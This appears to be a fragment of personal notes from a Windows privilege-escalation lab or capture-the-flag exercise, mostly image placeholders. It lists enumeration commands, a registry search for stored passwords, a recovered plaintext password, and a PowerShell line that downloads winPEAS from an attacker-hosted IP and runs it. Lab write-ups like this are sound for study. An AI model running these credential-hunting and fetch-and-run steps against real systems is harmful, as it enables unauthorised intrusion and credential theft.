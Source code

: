 
![[Pasted image 20240502020942.png]]


```
net user
```
![[Pasted image 20240502021215.png]]

```
netsh firewall show state
```
![[Pasted image 20240502021554.png]]


```
reg query HKLM /f password /t REG_SZ /s
```
![[Pasted image 20240502021900.png]]

```
Moneymakestheworldgoround!
```

Let's run winpeas and see what we can find
```
IWR -Uri http://10.10.16.20:8080/winPEASx64.exe -OutFile winPEASx64.exe
```

I tried running x86 but in the end x64 worked which means that the system is x64
```
./winPEASx64.exe
```

![[Pasted image 20240502022922.png]]
![[Pasted image 20240502024020.png]]
I guess this password is not working

![[Pasted image 20240502024103.png]]

